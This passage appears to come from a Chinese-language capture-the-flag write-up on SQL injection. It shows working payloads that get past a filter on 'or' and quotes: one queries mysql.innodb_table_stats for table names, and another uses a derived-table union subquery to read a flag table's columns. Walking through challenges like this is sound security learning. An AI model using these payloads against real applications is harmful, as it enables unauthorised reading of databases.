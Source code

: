 题目过滤了`or`,`'`，子查询里的information用不了了，在mysql中其他类似作用库如`innodb_table_stats`，作用和`information_schema.tables`类似。可以查出库名，表名

![info](/medias/show-sql/info.png)

```sql
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=2\
```

通过子查询套出表中字段

```sql
select group_concat(c) from (select 1,2 as c,3 union select * from flag23a1)d
```

这句子查询sql中，最后多出一个字母d，因为sql要求子查询派生表也要有表名，最后那个就是表名，可以随便起
